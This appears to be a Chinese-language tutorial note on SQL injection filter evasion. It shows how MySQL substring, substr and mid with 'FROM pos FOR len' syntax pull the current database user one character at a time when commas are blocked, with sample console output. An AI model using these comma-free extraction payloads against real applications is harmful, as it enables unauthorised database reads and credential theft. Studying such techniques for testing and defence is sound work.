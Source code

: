 # 六、字符串截取函数绕过逗号（,）

# 0x00 概要

不允许 逗号(,) 出现时的注入方法

- substring(str FROM pos)
- substr(str FROM pos)
- mid(str FROM pos)
- 从字符串str的起始位置pos 返回一个子串

# 0x01 解法

## 0x01.1 解法一



```plain
mysql> select  ascii(substring((select user()) from 1));
+------------------------------------------+
| ascii(substring((select user()) from 1)) |
+------------------------------------------+
|                                      114 |
+------------------------------------------+
1 row in set (0.00 sec)
```



```plain
mysql> select  ascii(substring((select user()) from 2));
+------------------------------------------+
| ascii(substring((select user()) from 2)) |
+------------------------------------------+
|                                      111 |
+------------------------------------------+
1 row in set (0.00 sec)
```

## 0x01.2 解法二

```plain
mysql> select  substring((select user()) from 1 for  1);
+------------------------------------------+
| substring((select user()) from 1 for  1) |
+------------------------------------------+
| r                                        |
+------------------------------------------+
1 row in set (0.00 sec)
```

